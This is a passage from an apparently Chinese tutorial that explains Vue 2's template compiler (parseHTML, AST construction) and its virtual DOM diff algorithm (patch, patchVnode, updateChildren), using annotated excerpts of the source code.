const ast = parse(template.trim(), options)
// 优化，遍历 AST，为每个节点做静态标记
// 标记每个节点是否为静态节点，然后进一步标记出静态根节点
// 这样在后续更新中就可以跳过这些静态节点了
// 标记静态根，用于生成渲染函数阶段，生成静态根节点的渲染函数
if (options.optimize !== false) {
optimize(ast, options)
}
// 从 AST 生成渲染函数，生成像这样的代码，比如：code.render = "_c('div',{attrs:{"id":"app"}},_l((arr),function(item){return _c('div',{key:item},[_v(_s(item))])}),0)"
const code = generate(ast, options)
return {
ast,
render: code.render,
staticRenderFns: code.staticRenderFns
}
}
- parse 方法用于解析 template 生成 ast 语法树。
src\compiler\parser\index.js
export function parse (
template: string,
options: CompilerOptions
): ASTElement | void {
// 省略...
parseHTML(template, {
warn,
expectHTML: options.expectHTML,
isUnaryTag: options.isUnaryTag,
canBeLeftOpenTag: options.canBeLeftOpenTag,
shouldDecodeNewlines: options.shouldDecodeNewlines,
shouldDecodeNewlinesForHref: options.shouldDecodeNewlinesForHref,
shouldKeepComment: options.comments,
start (tag, attrs, unary) {
// 省略...
},
end () {
// 省略...
},
chars (text: string) {
// 省略...
},
comment (text: string) {
// 省略...
}
})
return root
}
parse 方法中调用了 parseHTML。
parseHTML 去遍历 html 字符串，做词法分析，将字符串变成 token（词元）。parse 方法传给 parseHTML 的参数中的 start end chars comment 方法做句法分析，然后生成 ast。
- parseHTML 解析 html 字符串
src\compiler\parser\html-parser.js
export function parseHTML (html, options) {
// 定义一些常量和变量
const stack = []
const expectHTML = options.expectHTML
const isUnaryTag = options.isUnaryTag || no
const canBeLeftOpenTag = options.canBeLeftOpenTag || no
let index = 0
let last, lastTag
// 开启一个 while 循环，循环结束的条件是 html 为空，即 html 被 parse 完毕
while (html) {
last = html
if (!lastTag || !isPlainTextElement(lastTag)) {
// 确保即将 parse 的内容不是在纯文本标签里 (script,style,textarea)
} else {
// 即将 parse 的内容是在纯文本标签里 (script,style,textarea)
}
// 如果两者相等，则说明字符串 html 在经历循环体的代码之后没有任何改变，将整个字符串作为文本对待
if (html === last) {
options.chars && options.chars(html)
if (process.env.NODE_ENV !== 'production' && !stack.length && options.warn) {
options.warn(`Mal-formatted tag at end of template: "${html}"`)
}
break
}
}
// 调用 parseEndTag 函数
parseEndTag()
// advance 函数
function advance (n) {
// ...
}
// parseStartTag 函数用来 parse 开始标签
function parseStartTag () {
// ...
}
// handleStartTag 函数用来处理 parseStartTag 的结果
function handleStartTag (match) {
// ...
}
// parseEndTag 函数用来 parse 结束标签
function parseEndTag (tagName, start, end) {
// ...
}
}
parseHTML 中维护了一个栈 stack 数组，当碰到非一元标签的开始标签就 push 入栈，碰到对应的结束标签就出栈。这个栈结构用于判断是否有的标签没有结束标签。当所有 html 都解析完了，栈中还有剩余，说明有标签没有闭合。
处理完开始标签后，栈中存储的数据是这样一个对象：
{
tag: 'div',
lowerCasedTag: 'div',
attrs: [
name: attrName,
vale: attrValue,
start: 0,
end: 0
],
start: 0,
end: 11
}
解析的过程中
- 对于起始标签，调用 options.start 处理
options.start(tagName, attrs, unary, match.start, match.end) - 对于结束标签，调用 options.end 处理
options.end(stack[i].tag, start, end) - 对于普通文本，调用 options.chars 处理
- 对于注释，调用 options.comment 处理
下面是 parseHTML src\compiler\parser\html-parser.js 详细源码
源码
/**
* Not type-checking this file because it's mostly vendor code.
*/
/*!
* HTML Parser By John Resig (ejohn.org)
* Modified by Juriy "kangax" Zaytsev
* Original code by Erik Arvidsson (MPL-1.1 OR Apache-2.0 OR GPL-2.0-or-later)
* http://erik.eae.net/simplehtmlparser/simplehtmlparser.js
*/
import { makeMap, no } from 'shared/util'
import { isNonPhrasingTag } from 'web/compiler/util'
import { unicodeRegExp } from 'core/util/lang'
// Regular Expressions for parsing tags and attributes
// 匹配标签的属性
// 第一个捕获组 ([^\s"'<>\/=]+) 用来匹配属性名，第二个捕获组 (=) 用来匹配等于号，第三 "([^"]*)"+ 、第四 '([^']*)'+、第五个 ([^\s"'=<>`]+) 捕获组都是用来匹配属性值的
const attribute = /^\s*([^\s"'<>\/=]+)(?:\s*(=)\s*(?:"([^"]*)"+|'([^']*)'+|([^\s"'=<>`]+)))?/
// 匹配标签动态属性
const dynamicArgAttribute = /^\s*((?:v-[\w-]+:|@|:|#)\[[^=]+\][^\s"'<>\/=]*)(?:\s*(=)\s*(?:"([^"]*)"+|'([^']*)'+|([^\s"'=<>`]+)))?/
// ncname 不包含冒号(:)的 XML 名称
const ncname = `[a-zA-Z_][\\-\\.0-9_a-zA-Z${unicodeRegExp.source}]*`
// qnameCapture 合法的标签名称，它是由可选项的 前缀、冒号 以及 名称 组成
const qnameCapture = `((?:${ncname}\\:)?${ncname})`
// < 以及后面的 标签名称
const startTagOpen = new RegExp(`^<${qnameCapture}`)
// 捕获开始标签结束部分的斜杠：/
const startTagClose = /^\s*(\/?)>/
// 匹配结束标签
const endTag = new RegExp(`^<\\/${qnameCapture}[^>]*>`)
const doctype = /^<!DOCTYPE [^>]+>/i
// #7298: escape - to avoid being passed as HTML comment when inlined in page
// 匹配注释节点
const comment = /^<!\--/
// 匹配条件注释节点
const conditionalComment = /^<!\[/
// Special Elements (can contain anything)
// 检测给定的标签名字是不是纯文本标签
export const isPlainTextElement = makeMap('script,style,textarea', true)
const reCache = {}
const decodingMap = {
'<': '<',
'>': '>',
'"': '"',
'&': '&',
' ': '\n',
'	': '\t',
''': "'"
}
const encodedAttr = /&(?:lt|gt|quot|amp|#39);/g
const encodedAttrWithNewLines = /&(?:lt|gt|quot|amp|#39|#10|#9);/g
// #5992
// 判断是否应该忽略标签内容的第一个换行符的，如果满足：标签是 pre 或者 textarea 且 标签内容的第一个字符是换行符，则返回 true，否则为 false。
const isIgnoreNewlineTag = makeMap('pre,textarea', true)
const shouldIgnoreFirstNewline = (tag, html) => tag && isIgnoreNewlineTag(tag) && html[0] === '\n'
// 将 html 实体转为对应的字符
function decodeAttr (value, shouldDecodeNewlines) {
const re = shouldDecodeNewlines ? encodedAttrWithNewLines : encodedAttr
return value.replace(re, match => decodingMap[match])
}
// 解析 html 模版字符串，处理所有标签以及标签上的属性
// 这里的 parseHTMLOptions 在后面处理过程中用到，再进一步解析
// 提前解析的话容易让大家岔开思路
/**
* 通过循环遍历 html 模版字符串，依次处理其中的各个标签，以及标签上的属性
* @param {*} html html 模版
* @param {*} options 配置项
*/
export function parseHTML (html, options) {
// 栈结构，碰到起始标签入栈，碰到对应结束标签出栈
// 可怕判断是否有的标签没有结束标签
const stack = []
const expectHTML = options.expectHTML
// 是否是自闭合标签
const isUnaryTag = options.isUnaryTag || no
// 检测一个标签是否是可以省略闭合标签的非一元标签
const canBeLeftOpenTag = options.canBeLeftOpenTag || no
// 记录当前在原始 html 字符串中的开始位置
let index = 0
// last 存储剩余还未解析的 html 字符串；lastTag 始终存储着位于 stack 栈顶的元素
let last, lastTag
while (html) {
last = html
// Make sure we're not in a plaintext content element like script/style
// 确保不是在 script、style、textarea 这样的纯文本元素中
if (!lastTag || !isPlainTextElement(lastTag)) {
// 找第一个 < 字符
let textEnd = html.indexOf('<')
// textEnd === 0 说明 html 第一个字符就是 <
/**
* 1、可能是注释节点：<!-- -->
2、可能是条件注释节点：<![ ]>
3、可能是 doctype：<!DOCTYPE >
4、可能是结束标签：</xxx>
5、可能是开始标签：<xxx>
6、可能只是一个单纯的字符串：<abcdefg
*/
// 分别处理可能找到的注释标签、条件注释标签、Doctype、开始标签、结束标签
// 每处理完一种情况，就会截断（continue）循环，并且重置 html 字符串，将处理过的标签截掉，下一次循环处理剩余的 html 字符串模版
if (textEnd === 0) {
// Comment:
// 处理注释标签 <!-- xx -->
if (comment.test(html)) {
// 注释标签的结束索引
const commentEnd = html.indexOf('-->')
if (commentEnd >= 0) {
// 是否应该保留 注释
if (options.shouldKeepComment) {
// 得到：注释内容、注释的开始索引、结束索引
options.comment(html.substring(4, commentEnd), index, index + commentEnd + 3)
}
// 调整 html 和 index 变量
advance(commentEnd + 3)
continue
}
}
// 处理条件注释标签：<!--[if IE]> 直接去掉不要
// http://en.wikipedia.org/wiki/Conditional_comment#Downlevel-revealed_conditional_comment
if (conditionalComment.test(html)) {
// 找到结束位置
const conditionalEnd = html.indexOf(']>')
if (conditionalEnd >= 0) {
// 调整 html 和 index 变量
advance(conditionalEnd + 2)
continue
}
}
// 处理 Doctype，<!DOCTYPE html> 直接去掉不要
// Doctype:
const doctypeMatch = html.match(doctype)
if (doctypeMatch) {
advance(doctypeMatch[0].length)
continue
}
// End tag:
/**
* 处理开始标签和结束标签是这整个函数中的核心部分，其它的不用管
* 这两部分就是在词法分析，然后调用 start 和 end 构造 element ast
*/
// 处理结束标签
/**
* <div></div>
* endTagMatch = [
'</div>',
'div'
]
*/
const endTagMatch = html.match(endTag)
if (endTagMatch) {
const curIndex = index
advance(endTagMatch[0].length)
// 处理结束标签
parseEndTag(endTagMatch[1], curIndex, index)
continue
}
// Start tag:
// 处理开始标签，比如 <div id="app">，
// startTagMatch = { tagName: 'div', attrs: [[xx], ...], start: index, end: index }
// parseStartTag 函数解析开始标签，如果解析成功了说明的确是开始标签，然后才会走下面的逻辑
/**
* parseStartTag() 举例子
*
* <div v-if="isSucceed" v-for="v in map"></div>
*
* 经过 parseStartTag 处理后返回：
*
* match = {
tagName: 'div',
attrs: [
[
' v-if="isSucceed"',
'v-if',
'=',
'isSucceed',
undefined,
undefined
],
[
' v-for="v in map"',
'v-for',
'=',
'v in map',
undefined,
undefined
]
],
start: index,
unarySlash: undefined,
end: index
}
*/
const startTagMatch = parseStartTag()
if (startTagMatch) {
// 进一步处理上一步得到结果，并最后调用 options.start 方法
// 真正的解析工作都是在这个 start 方法中做的
handleStartTag(startTagMatch)
if (shouldIgnoreFirstNewline(startTagMatch.tagName, html)) {
advance(1)
}
continue
}
}
let text, rest, next
if (textEnd >= 0) {
// 能走到这儿，说明虽然在 html 中匹配到到了 <xx，但是这不属于上述几种情况，
// 它就只是一个普通的一段文本：<我是文本
// 于是从 html 中找到下一个 <，直到 <xx 是上述几种情况的标签，则结束，
// 在这整个过程中一直在调整 textEnd 的值，作为 html 中下一个有效标签的开始位置
// 截取 html 模版字符串中 textEnd 之后的内容，rest = <xx
rest = html.slice(textEnd)
// 这个 while 循环就是处理 <xx 之后的纯文本情况
// 截取文本内容，并找到有效标签的开始位置（textEnd）
while (
!endTag.test(rest) &&
!startTagOpen.test(rest) &&
!comment.test(rest) &&
!conditionalComment.test(rest)
) {
// < in plain text, be forgiving and treat it as text
// 则认为 < 后面的内容为纯文本，然后在这些纯文本中再次找 <
next = rest.indexOf('<', 1)
// 如果没找到 <，则直接结束循环
if (next < 0) break
// 走到这儿说明在后续的字符串中找到了 <，索引位置为 textEnd
textEnd += next
// 截取 html 字符串模版 textEnd 之后的内容赋值给 rest，继续判断之后的字符串是否存在标签
rest = html.slice(textEnd)
}
// 走到这里，说明遍历结束，有两种情况，一种是 < 之后就是一段纯文本，要不就是在后面找到了有效标签，截取文本
text = html.substring(0, textEnd)
}
// 如果 textEnd < 0，说明 html 中就没找到 <，那说明 html 就是一段文本
if (textEnd < 0) {
text = html
}
// 将文本内容从 html 模版字符串上截取掉
if (text) {
advance(text.length)
}
// 处理文本
// textEnd >= 0 或 textEnd < 0 的时候的普通文本会被处理
if (options.chars && text) {
options.chars(text, index - text.length, index)
}
} else {
// 处理 script、style、textarea 标签中的内容，对于纯文本标签的处理宗旨就是将其内容作为纯文本对待
// endTagLength 变量用来保存纯文本标签闭合标签的字符长度
let endTagLength = 0
// 开始标签的小写形式
const stackedTag = lastTag.toLowerCase()
// 匹配纯文本标签的内容以及结束标签
// 第一个捕获分组开启了懒惰模式，匹配的是纯文本标签的文字内容
// 第二个捕获分组匹配 stackedTag 对应的结束标签
const reStackedTag = reCache[stackedTag] || (reCache[stackedTag] = new RegExp('([\\s\\S]*?)(</' + stackedTag + '[^>]*>)', 'i'))
// 匹配并处理开始标签和结束标签之间的所有文本，比如 <script>xx</script>
const rest = html.replace(reStackedTag, function (all, text, endTag) {
endTagLength = endTag.length
if (!isPlainTextElement(stackedTag) && stackedTag !== 'noscript') {
text = text
.replace(/<!\--([\s\S]*?)-->/g, '$1') // #7298
.replace(/<!\[CDATA\[([\s\S]*?)]]>/g, '$1')
}
// 忽略 <pre> 标签和 <textarea> 标签的内容中的第一个换行符
if (shouldIgnoreFirstNewline(stackedTag, text)) {
text = text.slice(1)
}
// 将纯文本标签的内容全部作为纯文本对待
if (options.chars) {
options.chars(text)
}
return ''
})
index += html.length - rest.length
html = rest
parseEndTag(stackedTag, index - endTagLength, index)
}
// 如果两者相等，则说明字符串 html 在经历循环体的代码之后没有任何改变，此时会把 html 字符串作为纯文本对待
if (html === last) {
options.chars && options.chars(html)
// 如果 stack 数组中还有内容，则说明有标签没有被闭合，给出提示信息
if (process.env.NODE_ENV !== 'production' && !stack.length && options.warn) {
options.warn(`Mal-formatted tag at end of template: "${html}"`, { start: index + html.length })
}
break
}
}
// Clean up any remaining tags
parseEndTag()
/**
* 重置 html，html = 从索引 n 位置开始的向后的所有字符
* index 为 html 在 原始的 模版字符串 中的的开始索引，也是下一次该处理的字符的开始位置
* @param {*} n 索引
*/
function advance (n) {
index += n
html = html.substring(n)
}
/**
* 解析开始标签，比如：<div id="app">
* @returns { tagName: 'div', attrs: [[xx], ...], start: index, end: index }
*/
function parseStartTag () {
// 匹配 < 以及后面的 标签名称
const start = html.match(startTagOpen)
// 如果匹配到了，说明是开始标签
/**
* <div></div>
* 则匹配结果如下
* start = ['<div', 'div']
*/
if (start) {
// 处理结果
const match = {
// 标签名
tagName: start[1],
// 属性，占位符
attrs: [],
// 标签的开始位置
start: index
}
/**
* 调整 html 和 index，比如：
* html = ' id="app">'
* index = 此时的索引
* start[0] = '<div'
*/
advance(start[0].length)
let end, attr
// 处理 开始标签 内的各个属性，并将这些属性放到 match.attrs 数组中
// 没有匹配到开始标签的结束部分，并且匹配到了开始标签中的属性 这个时候循环体将被执行，直到遇到开始标签的结束部分为止
/**
* <div v-for="v in map"></div>
* 属性将被匹配为
* attr = [
' v-for="v in map"',
'v-for',
'=',
'v in map',
undefined,
undefined
]
*/
while (!(end = html.match(startTagClose)) && (attr = html.match(dynamicArgAttribute) || html.match(attribute))) {
attr.start = index
advance(attr[0].length)
attr.end = index
match.attrs.push(attr)
}
// 开始标签的结束，end = '>' 或 end = ' />'
/**
* <br /> startTagClose 匹配结果：end = ['/>', '/']
* <div> startTagClose 匹配结果：end = ['>', undefined]
*/
if (end) {
match.unarySlash = end[1] // 如果 end[1] 有值说明是一元标签
advance(end[0].length)
match.end = index
return match
}
}
}
/**
* 进一步处理开始标签的解析结果 ——— match 对象
* 处理属性 match.attrs，如果不是自闭合标签，则将标签信息放到 stack 数组，待将来处理到它的闭合标签时再将其弹出 stack，表示该标签处理完毕，这时标签的所有信息都在 element ast 对象上了
* 接下来调用 options.start 方法处理标签，并根据标签信息生成 element ast，
* 以及处理开始标签上的属性和指令，最后将 element ast 放入 stack 数组
*
* @param {*} match { tagName: 'div', attrs: [[xx], ...], start: index, end: index }
*/
function handleStartTag (match) {
const tagName = match.tagName
const unarySlash = match.unarySlash
if (expectHTML) {
/**
* 最近一次遇到的开始标签是 p 标签，并且当前正在解析的开始标签不能段落式内容(Phrasing content) 模型，这时候 if 语句块的代码才会执行，即调用 parseEndTag(lastTag)。
*
* 每一个 html 元素都拥有一个或多个内容模型(content model)，其中 p 标签本身的内容模型是 流式内容(Flow content)，并且 p 标签的特性是只允许包含 段落式内容(Phrasing content)。所以条件成立的情况如下：
*
* <p><h2></h2></p>
*
* 在解析上面这段 html 字符串的时候，首先遇到 p 标签的开始标签，此时 lastTag 被设置为 p，紧接着会遇到 h2 标签的开始标签，由于 h2 标签的内容模型属于非 段落式内容(Phrasing content) 模型，所以会立即调用 parseEndTag(lastTag) 函数闭合 p 标签，此时由于强行插入了 </p> 标签，所以解析后的字符串将变为如下内容：
*
* <p></p><h2></h2></p>
*
* 接着，继续解析该字符串，会遇到 <h2></h2> 标签并正常解析之，最后解析器会遇到一个单独的 p 标签的结束标签，即：</p>。这个时候就回到了我们前面讲过的，当解析器遇到 p 标签或者 br 标签的结束标签时会补全他们，最终 <p><h2></h2></p> 这段 html 字符串将被解析为：
*
* <p></p><h2></h2><p></p>
*
* 而这也就是浏览器的行为，以上是第一个 if 分支的意义。
*/
if (lastTag === 'p' && isNonPhrasingTag(tagName)) {
parseEndTag(lastTag)
}
// 当前正在解析的标签是一个可以省略结束标签的标签，并且与上一次解析到的开始标签相同
/**
* <p>one
<p>two
p 标签是可以省略结束标签的标签，所以当解析到一个 p 标签的开始标签并且下一次遇到的标签也是 p 标签的开始标签时，会立即关闭第二个 p 标签。即调用：parseEndTag(tagName) 函数，然后由于第一个 p 标签缺少闭合标签所以会 Vue 会给你一个警告。
*/
if (canBeLeftOpenTag(tagName) && lastTag === tagName) {
parseEndTag(tagName)
}
}
// 是否是一元标签，比如 <hr />
const unary = isUnaryTag(tagName) || !!unarySlash
// for 循环的作用是：格式化 match.attrs 数组，并将格式化后的数据存储到常量 attrs 中
// 处理 match.attrs，得到 attrs = [{ name: attrName, value: attrVal, start: xx, end: xx }, ...]
// 比如 attrs = [{ name: 'id', value: 'app', start: xx, end: xx }, ...]
const l = match.attrs.length
const attrs = new Array(l)
for (let i = 0; i < l; i++) {
const args = match.attrs[i]
// handleStartTag 处理的是 parseStartTag 返回的 match 结果，通过 parseStartTag 的代码我们知道正则匹配的第 3 4 5 位置是属性的值，其中只有一项是有值的，其他捕获分组是 undefined
const value = args[3] || args[4] || args[5] || ''
const shouldDecodeNewlines = tagName === 'a' && args[1] === 'href'
? options.shouldDecodeNewlinesForHref
: options.shouldDecodeNewlines
attrs[i] = {
name: args[1],
value: decodeAttr(value, shouldDecodeNewlines)
}
// 非生产环境，记录属性的开始和结束索引
if (process.env.NODE_ENV !== 'production' && options.outputSourceRange) {
attrs[i].start = args.start + args[0].match(/^\s*/).length
attrs[i].end = args.end
}
}
// 如果开始标签是非一元标签，则将该开始标签的信息入栈，即 push 到 stack 数组中，并将 lastTag 的值设置为该标签名
// 如果是自闭合标签，则标签信息就没必要进入 stack 了，直接处理众多属性，将他们都设置到 element ast 对象上，就没有处理 结束标签的那一步了，这一步在处理开始标签的过程中就进行了
if (!unary) {
stack.push({ tag: tagName, lowerCasedTag: tagName.toLowerCase(), attrs: attrs, start: match.start, end: match.end })
lastTag = tagName
}
/**
* 调用 start 方法，主要做了以下 6 件事情:
* 1、创建 AST 对象
* 2、处理存在 v-model 指令的 input 标签，分别处理 input 为 checkbox、radio、其它的情况
* 3、处理标签上的众多指令，比如 v-pre、v-for、v-if、v-once
* 4、如果根节点 root 不存在则设置当前元素为根节点
* 5、如果当前元素为非自闭合标签则将自己 push 到 stack 数组，并记录 currentParent，在接下来处理子元素时用来告诉子元素自己的父节点是谁
* 6、如果当前元素为自闭合标签，则表示该标签要处理结束了，让自己和父元素产生关系，以及设置自己的子元素
*/
if (options.start) {
options.start(tagName, attrs, unary, match.start, match.end)
}
}
/**
* <body>
</br>
</p>
</body>
上面的 html 片段中，我们分别写了 </br>、</p> 的结束标签，但注意我们并没有写起始标签，而浏览器是能够正常解析他们的，其中 </br> 标签被正常解析为 <br> 标签，而 </p> 标签被正常解析为 <p></p>。除了 br 与 p 其他任何标签如果你只写了结束标签那么浏览器都将会忽略。所以为了与浏览器的行为相同，parseEndTag 函数也需要专门处理 br 与 p 的结束标签，即：</br> 和 </p>。
*/
/**
* 调用 parseEndTag() 函数时不传递任何参数，也就是说此时 tagName 参数也不存在。由于 tagName 不存在，所以此时 pos 为 0，我们知道在这段代码之后会遍历 stack 栈，并将 stack 栈中元素的索引与 pos 作对比。由于 pos 为 0，所以 i >= pos 始终成立，这个时候 stack 栈中如果有剩余未处理的标签，则会逐个警告缺少闭合标签，并调用 options.end 将其闭合。
*/
/**
* 解析结束标签，比如：</div>
* 最主要的事就是：
* 1、处理 stack 数组，从 stack 数组中找到当前结束标签对应的开始标签，然后调用 options.end 方法
* 2、处理完结束标签之后调整 stack 数组，保证在正常情况下 stack 数组中的最后一个元素就是下一个结束标签对应的开始标签
* 3、处理一些异常情况，比如 stack 数组最后一个元素不是当前结束标签对应的开始标签，还有就是
* br 和 p 标签单独处理
* @param {*} tagName 标签名，比如 div
* @param {*} start 结束标签的开始索引
* @param {*} end 结束标签的结束索引
*/
function parseEndTag (tagName, start, end) {
let pos, lowerCasedTagName
if (start == null) start = index
if (end == null) end = index
// Find the closest opened tag of the same type
// 倒序遍历 stack 数组，找到第一个和当前结束标签相同的标签，该标签就是结束标签对应的开始标签的描述对象
// 理论上，不出异常，stack 数组中的最后一个元素就是当前结束标签的开始标签的描述对象
if (tagName) {
lowerCasedTagName = tagName.toLowerCase()
for (pos = stack.length - 1; pos >= 0; pos--) {
if (stack[pos].lowerCasedTag === lowerCasedTagName) {
break
}
}
} else {
// If no tag name is provided, clean shop
pos = 0
}
// 如果在 stack 中一直没有找到相同的标签名，则 pos 就会 < 0，进行后面的 else 分支
if (pos >= 0) {
// Close all the open elements, up the stack
// 这个 for 循环负责关闭 stack 数组中索引 >= pos 的所有标签
// 为什么要用一个循环，上面说到正常情况下 stack 数组的最后一个元素就是我们要找的开始标签，
// 但是有些异常情况，就是有些元素没有给提供结束标签，比如：
// stack = ['span', 'div', 'span', 'h1']，当前处理的结束标签 tagName = div
// 匹配到 div，pos = 1，那索引为 2 和 3 的两个标签（span、h1）说明就没提供结束标签
// 这个 for 循环就负责关闭 div、span 和 h1 这三个标签，
// 并在开发环境为 span 和 h1 这两个标签给出 ”未匹配到结束标签的提示”
for (let i = stack.length - 1; i >= pos; i--) {
if (process.env.NODE_ENV !== 'production' &&
(i > pos || !tagName) &&
options.warn
) {
options.warn(
`tag <${stack[i].tag}> has no matching end tag.`,
{ start: stack[i].start, end: stack[i].end }
)
}
if (options.end) {
// 走到这里，说明上面的异常情况都处理完了，调用 options.end 处理正常的结束标签
options.end(stack[i].tag, start, end)
}
}
// Remove the open elements from the stack
// 将刚才处理的那些标签从数组中移除，保证数组的最后一个元素就是下一个结束标签对应的开始标签
stack.length = pos
lastTag = pos && stack[pos - 1].tag
} else if (lowerCasedTagName === 'br') {
// 当前处理的标签为 <br /> 标签
if (options.start) {
options.start(tagName, [], true, start, end)
}
} else if (lowerCasedTagName === 'p') {
// p 标签
if (options.start) {
options.start(tagName, [], false, start, end)
}
if (options.end) {
// 处理 </p> 标签
options.end(tagName, start, end)
}
}
}
}
- 根据 template 生成 ast 。parse
src\compiler\parser\index.js
export function parse (
template: string,
options: CompilerOptions
): ASTElement | void {
/*
* 省略...
* 省略的代码用来初始化一些变量的值，以及创建一些新的变量，其中包括 root 变量，该变量为 parse 函数的返回值，即 AST
*/
function warnOnce (msg) {
// 省略...
}
function closeElement (element) {
// 省略...
}
parseHTML(template, {
// 其他选项...
start (tag, attrs, unary, start, end) {
// 省略...
},
end (tag, start, end) {
// 省略...
},
chars (text: string) {
// 省略...
},
comment (text: string) {
// 省略...
}
})
return root
}
- 当开始处理标签的时候，start 被调用了，如果这时候 root 为空，说明是第一次处理标签，则设置当前标签的 ast 对象为 root，如果当前标签是不是一元标签，则设置 currentParent 为当前标签，然后当前开始标签 ast 入栈 stack
- 之后 start 被调用，这时已经有 root 了，如果当前标签不是一元标签，则设置 currentParent 为当前标签 ast，然后当前开始标签 ast 入栈 stack
- 如果碰到了结束标签，end 被调用了，stack 里和结束标签对应的开始标签 ast 出栈，currentParent 设置为上一层的 ast，也就是 stack[stack.length - 1]。然后将刚才出栈的 ast 加入 currentParent.children，设置刚才出栈的 ast 的 parent 为 currentParent，设置父子关系。
- 依此类推，直到整个 ast 树建立完毕
从上面流程可以看出 stack 栈用于碰到结束标签（有标签闭合了）后，恢复 currentParent 为之前上一层的 ast，这样才能正确地建立 ast 的父子关系。
diff
为什么需要虚拟 dom 和 diff 算法
其实 vue 1.0 的时候是没有虚拟 dom 和 diff 算法的，到 vue 2.0 的时候才有。vue 1.0 的时候追求细粒度的数据变化监听，每一个数据都有一个 watcher，可以精确地更新，所以不需要虚拟 dom 和 diff 算法。
但是当项目规模变大后，数据越来越多，每一个数据一个 watcher 非常耗费内存，造成大量开销。所以 vue 2.0 的时候设置成一个组件一个渲染 watcher。这时候一个组件中可能用到了多个数据，当数据变化怎么才能知道需要精确地更新哪个节点呢？（由于 vue 2.0 中 watcher 的粒度比较大，当数据更新时不知道具体更新哪一个地方，所以引入了虚拟 dom 和 diff 算法）。
当数据变化后，可以计算出新的虚拟 dom ，然后和老的虚拟 dom 通过 diff 算法比较，计算出最小的 dom 更新。配合异步更新策略减少刷新频率，提高性能。
从源码看 diff 流程
-
src\core\instance\lifecycle.jsVue.prototype._update 中有这样一句：if (!prevVnode) { vm.$el = vm.__patch__(vm.$el, vnode, hydrating, false /* removeOnly */) // 首次渲染 } else { vm.$el = vm.__patch__(prevVnode, vnode) // 更新 } -
src\core\vdom\patch.jspatch 方法，来看首次渲染初始化过程function patch (oldVnode, vnode, hydrating, removeOnly) { // 首次渲染时 oldVnode 是 el 参数 dom 节点，vnode 是组件虚拟 dom if (isRealElement) { // 如果 oldVnode 是真实节点，说明是首次渲染 // 标准化处理：将真实 dom 转换成一个 vnode oldVnode = emptyNodeAt(oldVnode) } const oldElm = oldVnode.elm // vnode 对应的真实 dom const parentElm = nodeOps.parentNode(oldElm) // 真实 dom 的父元素 初始化时就是 body 元素 createElm( vnode, insertedVnodeQueue, oldElm._leaveCb ? null : parentElm, // 父节点 nodeOps.nextSibling(oldElm) // 宿主元素的邻居节点 ) // createElm 创建新的 dom 节点，会递归循环创建所有子节点 if (isDef(parentElm)) { // 将旧的节点删除 removeVnodes([oldVnode], 0, 0) } else if (isDef(oldVnode.tag)) { invokeDestroyHook(oldVnode) } }总结来说就是首次渲染的时候判断第一个参数 oldVnode 如果是 dom 节点，就直接将第二个参数组件 vnode 转换成 真实 dom ，然后追加到父节点 body 中，然后将 oldVnode 删除。
-
src\core\vdom\patch.jspatch 方法，来看更新流程（diff 算法）function patch (oldVnode, vnode, hydrating, removeOnly) { if (!isRealElement && sameVnode(oldVnode, vnode)) { // 如果 oldVnode 不是真实 dom 元素 并且 oldVnode 和 vnode 是相同节点，执行 patchVnode // diff 算法 patchVnode(oldVnode, vnode, insertedVnodeQueue, null, null, removeOnly) } }sameVnode 判断两个 vnode 是否是相同节点，有很多个条件，但大体满足两个条件一般就是相同节点：1. key 相同 2. tag 相同。还有其他条件例如：如果是 input 元素那么类型必须一样
function sameVnode (a, b) { return ( a.key === b.key && ( ( a.tag === b.tag && a.isComment === b.isComment && isDef(a.data) === isDef(b.data) && sameInputType(a, b) ) || ( isTrue(a.isAsyncPlaceholder) && a.asyncFactory === b.asyncFactory && isUndef(b.asyncFactory.error) ) ) ) }- diff 算法：同层比较 深度优先。同层比较可以降低时间复杂度
- 比较两个VNode，包括三种类型操作：属性更新、文本更新、子节点更新
- 具体规则如下：
- 新老节点均有 children 子节点，则对子节点进行 diff 操作，调用 updateChildren
- 如果新节点有子节点而老节点没有子节点，先清空老节点的文本内容，然后为其新增子节点。
- 当新节点没有子节点而老节点有子节点的时候，则移除该节点的所有子节点。
- 当新老节点都无子节点的时候，只是文本的替换。
function patchVnode ( oldVnode, vnode, insertedVnodeQueue, ownerArray, index, removeOnly ) { // 获取双方子节点 const oldCh = oldVnode.children const ch = vnode.children // 属性更新 if (isDef(data) && isPatchable(vnode)) { for (i = 0; i < cbs.update.length; ++i) cbs.update[i](oldVnode, vnode) if (isDef(i = data.hook) && isDef(i = i.update)) i(oldVnode, vnode) } // 判断双方子元素的情况，走不同分支 if (isUndef(vnode.text)) { if (isDef(oldCh) && isDef(ch)) { // 双方都有子元素，重排 if (oldCh !== ch) updateChildren(elm, oldCh, ch, insertedVnodeQueue, removeOnly) } else if (isDef(ch)) { // 新的有子元素，老的没有子元素，批量创建 if (isDef(oldVnode.text)) nodeOps.setTextContent(elm, '') addVnodes(elm, null, ch, 0, ch.length - 1, insertedVnodeQueue) } else if (isDef(oldCh)) {// 新的没有子元素，老的有子元素，批量删除 removeVnodes(oldCh, 0, oldCh.length - 1) } else if (isDef(oldVnode.text)) { nodeOps.setTextContent(elm, '') } } else if (oldVnode.text !== vnode.text) { // 新老都是文本，文本不一样，那么就文本更新 nodeOps.setTextContent(elm, vnode.text) } } - diff 算法：同层比较 深度优先。同层比较可以降低时间复杂度
-
updateChildren
因为通常代码中给节点做改变的时候是头部加一个，或者尾部加一个，或者中间加一个，很少去做乱序的操作，所以对新旧两组节点，将它们各自的首尾设置为 4 个游标，方便比较。
function updateChildren (parentElm, oldCh, newCh, insertedVnodeQueue, removeOnly) { // 四个游标以及对应四个节点 let oldStartIdx = 0 let newStartIdx = 0 let oldEndIdx = oldCh.length - 1 let oldStartVnode = oldCh[0] let oldEndVnode = oldCh[oldEndIdx] let newEndIdx = newCh.length - 1 let newStartVnode = newCh[0] let newEndVnode = newCh[newEndIdx] // 用于最后查找的变量 let oldKeyToIdx, idxInOld, vnodeToMove, refElm // removeOnly is a special flag used only by <transition-group> // to ensure removed elements stay in correct relative positions // during leaving transitions const canMove = !removeOnly if (process.env.NODE_ENV !== 'production') { checkDuplicateKeys(newCh) } // 开始循环，首尾游标不能重合 while (oldStartIdx <= oldEndIdx && newStartIdx <= newEndIdx) { // 移动操作可能造成游标和节点不对应，需要额外调整 if (isUndef(oldStartVnode)) { oldStartVnode = oldCh[++oldStartIdx] // Vnode has been moved left } else if (isUndef(oldEndVnode)) { oldEndVnode = oldCh[--oldEndIdx] } // 后面的四个就是四种假设 else if (sameVnode(oldStartVnode, newStartVnode)) { // 两个开头相同，递归 patchVnode 